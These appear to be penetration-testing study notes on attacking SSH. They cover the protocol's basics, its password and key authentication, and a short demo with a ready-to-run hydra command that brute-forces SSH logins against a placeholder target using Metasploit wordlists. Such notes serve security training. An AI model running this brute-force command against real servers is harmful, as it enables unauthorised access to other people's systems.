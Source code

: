 # Exploiting SSH

* SSH is a remote administration protocol that offers encryption and is the sucessor to Telnet.
* It is typically used for remote access to servers and systems.
* SSH uses TCP  port 22 by default, however, like other services, it can be configured to use any other open TCP port.

#### SSH authentication can be configured in two ways:

* Username & password authentication
* Key based authentication
* In the case of username and password authentication, we can perform a brute-force attack on the SSH server in order to identify legitimate credentials and consequently gain access to the target system.

## Practical Demo

Enumerate the target

In this case we will perform a brute force attack:

* <mark style="color:yellow;">hydra -L /usr/share/metasploit-framework/data/wordlists/common\_users.txt -P /usr/share/metasploit-framework/data/wordlists/common\_passwords.txt targetIP -t 4 ssh</mark>
